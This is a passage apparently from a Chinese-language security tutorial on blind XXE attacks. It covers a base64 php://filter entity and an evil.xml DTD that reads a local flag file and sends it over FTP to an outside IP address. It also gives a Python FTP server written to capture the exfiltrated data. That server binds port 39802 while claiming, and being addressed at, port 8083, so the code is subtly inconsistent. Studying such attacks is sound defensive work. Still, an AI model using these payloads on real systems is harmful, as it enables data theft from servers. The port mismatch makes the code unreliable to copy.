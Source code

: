在8081端口监听：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240612210438.png)

这个evil.xml似乎是send外面套了一层payload，是可以去掉payload的。

此外，可以用base64编码来读取文件，以避免特殊字符引起的语法解析错误。

`<!ENTITY bee SYSTEM "php://filter/read=convert.base64-encode/resource=file:///d:/robots.txt">`

### 盲读文件的限制(ftp)

盲读文件的时候，使用nc接受数据只能是对应的文件只有一行。如果文件中包含了`\r`，`\n`等字符的时候，会报错：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240614163559.png)

但是可以用ftp协议代替http协议（**jdk<7u141和jdk<8u162**）

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240614173054.png)

evil.xml

```xml-dtd
<!ENTITY % file SYSTEM 'file:///e://flag'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'ftp://111.231.25.127:8083/%file;'>">
%payload;
%send;
```

用python实现简单的FTP服务器

```python
import socket
import threading

def handle_client(client_socket):
    print("New client connected")
    client_socket.sendall(b"220 xxe-ftp-server\r\n")
    while True:
        req = client_socket.recv(1024).decode('utf-8')
        print("< " + req)
        if "USER" in req:
            client_socket.sendall(b"331 password please - version check\r\n")
        else:
            client_socket.sendall(b"230 more data please!\r\n")

def main():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind(('0.0.0.0', 39802))
    server.listen(5)
    print("Server listening on port 8083")
    while True:
        client_socket, addr = server.accept()
        client_handler = threading.Thread(target=handle_client, args=(client_socket,))
        client_handler.start()

if __name__ == "__main__":
    main()
```
